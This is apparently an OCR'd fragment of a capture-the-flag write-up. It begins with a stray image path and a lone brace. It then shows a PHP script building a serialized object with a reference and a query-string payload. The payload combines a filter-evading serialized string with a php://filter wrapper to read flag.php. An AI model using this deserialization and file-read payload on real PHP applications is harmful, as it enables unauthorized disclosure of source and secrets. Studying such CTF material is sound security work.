 ```php
}
```

```php
<?php
class MyFile {
    public $name='flag';
    public $user='';
}
$a=new MyFile();
$a->name=&$a->user;
var_dump(serialize($a));
?>
```

payload`?input=O:6:"MyFile":2:{s:4:"name";s:0:"";S:4:"\75ser";R:2;}&user=php://filter/read=convert.base64-encode/resource=flag.php`